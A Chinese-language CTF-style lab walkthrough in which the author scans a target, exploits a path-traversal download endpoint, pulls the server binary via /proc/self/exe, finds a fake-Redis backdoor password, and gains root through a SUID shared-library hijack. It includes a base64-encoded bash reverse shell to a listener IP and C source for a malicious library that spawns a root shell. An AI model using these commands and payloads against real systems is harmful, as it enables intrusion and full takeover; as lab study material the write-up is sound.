## collect information

> 端口扫描



共三个端口存活：22,6379,8080

看下面的指纹描述，这里的6379好像是redis数据库，8080是一个http服务

> 8080

这个http服务很简单，上来就能看到有个别文件我能下载访问



关注到它的下载链接是`/download?file=`，我就猜想这里存在目录穿越的可能漏洞，猜想成功



看到存在用户名yolo，就顺手尝试读了下user_flag，读取成功



## Privilege Escalation

既然这里可以利用file文件协议，那么php伪协议似乎可以尝试下？Wrong

并没有探测出来，这似乎不是php web服务，我打算从Redis入手

按照About说的那样，靶机的Redis的版本是7.2.0，远远低于目前最新的8.10



应该需要我在这里打版本洞

搜索引擎告诉我，这里可能要打CVE-2026-23479



在网上找了这个仓库https://github.com/pduggusa/redis-cve-2026-23479-check

发现确实检查出这个cve



复现难度有亿点点大，因为网上没有找到详细的poc

和Sublarge聊了会儿，他给出提示，让我关注进程文件`/proc/self/exe`

所谓的/proc/self/exe是一个非常特殊且有用的符号链接，简单来说，它会指向当前正在运行的程序(进程)自身的可执行文件路径，既然前面我可以穿越路径来下载文件，那么我就能将当前这个web服务的后台文件，利用/proc/self/exe的特性，直接拉取下来，审计白盒漏洞要比揣测CVE类型好做多了

下载下来后，发现后台文件是一个封装好的go可执行程序，这似乎超过了我的预料，原本还以为后台是Java呢

由于go二进制文件逆向难度较大，我直接扔给AI进行分析

用的gpt-5.5,花了我将近20分钟吧



可以看出来，我前面一直在尝试CVE纯属浪费时间了，这个后台居然是伪造的web+redis

这是web端原理



然后这是Redis端原理



在Redis端这里，隐藏有后门函数



后门这里需要进行认证，AI也帮我分析出来了



总结下：这个web后台是一个 Go 编写的 fake-redis 后门程序，伪装成 Web 文档门户和 Redis 服务；Redis 侧硬编码后门密码 r3d1s_b4ckd00r，认证后 SYSTEM 命令通过 /bin/sh -c 执行任意系统命令

这样的话，我可以直接利用后门执行系统命令

测试如下：



核心就是发送了这两条指令

```bash
AUTH r3d1s_b4ckd00r
SYSTEM echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTQyLzIzMzMgMD4mMQo= | base64 -d | bash
```

后者进行base64编码是因为原本的bash反弹shell似乎无法被go文件解析成功，避免丢失参数，就直接base64编码处理了

在监听端连接并做好shell稳固



## Vertical Escalation

家目录只有yolo一个用户，这里只能想办法向root进行提权

查看suid文件的时候，发现两样比较特殊的文件

```bash
find / -perm -4000 -type f 2>/dev/null
```



这两都在/opt下，而且这两其实是同一个文件，注意看，它两连md5哈希值都一样



先提取一个尝试逆向分析



再看看主函数



根据这个主函数逻辑，不管是.grin还是.whiskers，我们都无法让它们调用grin()函数，理由便是文件名我们改不了，这算是限制吧，然后关于那个外部grin函数，根据逆向的结果，定义grin()的libhidden.so库可以被我们在当前目录下加载,那么这里就能走恶意库劫持了

先解决限制条件吧，暂时是真想不出办法来绕过，回忆suid文件列表，好像还藏了一个特殊文件



我把它和最后两个文件进行比较



完全一致，而且文件名还绕过了限制，那么绝对可以利用它进行提权，接下来我们在可写路径下写个恶意库文件

```c
#include <unistd.h>
#include <stdlib.h>
void grin(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    char *argv[]={"/bin/sh",NULL};
    char *envp[]={"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",NULL};
    execve("/bin/sh",argv,envp);
}
```



提权成功

> 在这里，我学到了Linux里的一个特殊符号链接文件：/proc/self/exe
>
> 这个不仅仅在web入口任意读文件里用到了，作用是指向web的后台文件；在.grin等文件中，也可以看到验证阶段里调用/proc/self/exe来确定正在运行的二进制的真实执行路径，这样可以避免我打链接绕过文件名限制
>
> 确实很好用，哦还有件事，ai在二进制逆向这一块，是真的强
